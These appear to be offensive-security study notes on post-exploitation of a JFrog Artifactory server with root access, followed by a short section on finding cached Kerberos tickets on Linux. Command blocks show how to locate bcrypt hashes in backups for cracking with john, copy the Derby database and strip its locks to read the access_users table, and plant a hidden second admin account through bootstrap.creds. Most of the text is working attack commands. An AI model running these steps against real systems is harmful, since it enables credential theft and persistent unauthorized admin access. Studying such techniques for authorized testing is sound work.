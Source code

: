 To enumerate we **grep the ps for artifactory** or remotely on port **8081, 8082**.

##### Artifactory back-up compromised:
We have root access to the server, but do not have artifactory creds. Files on the disk are stored by the file hash, also the files would not change.

User's and password's hashes are in the database - usually it is postgresql, default it is apache derby. We need to compromise the database 1. Through back-ups:
#back-ups #creds-leak #repo
```bash
cd /opt/jfrog/artifactory/var/backup/access/
```

There are bcrypt hashes, we can copy them without bcrypt$ (one $ at the beginning) and use john to crack.

If there are no back-ups we can copy the derby database and remove the locks:
```bash
sudo cp -r /opt/jfrog/artifactory/var/data/access/derby /tmp/hackeddb
sudo rm /tmp/hackeddb/derby/*.lck
```
Then we can use derby utility to connect to db, no username or passwd:
```bash
sudo /opt/jfrog/artifactory/app/third-party/java/bin/java -jar /opt/derby/db-derby-10.15.1.3-bin/lib/derbyrun.jar ij
connect 'jdbc:derby:/tmp/hackeddb/derby';
select * from access_users;
```

For other engines, we can try to inject our user directly to DB.
#add-acc

We can also add second admin account:
```bash
echo "haxmin@*=haxhaxhax" > /opt/jfrog/artifactory/var/etc/access/bootstrap.creds
sudo chmod 600 /opt/jfrog/artifactory/var/etc/access/bootstrap.creds
sudo /opt/jfrog/artifactory/app/bin/artifactoryctl stop
sudo /opt/jfrog/artifactory/app/bin/artifactoryctl start
```

### Kerberos on Linux

#kerberos #linux #AD #creds-leak 
When the Domain user authenticates to the linux host over ssh e.g. ssh Administrator@corp1.com@linuxvictim , they have the cached kerb file with kerberos tickets:

```bash
env | grep KRB5
KRB5CCNAME=FILE:/tmp/krb5cc_607000500_JwdYQ1
```

We cab use kinit to request TGT.
```bash
kinit
klist
```
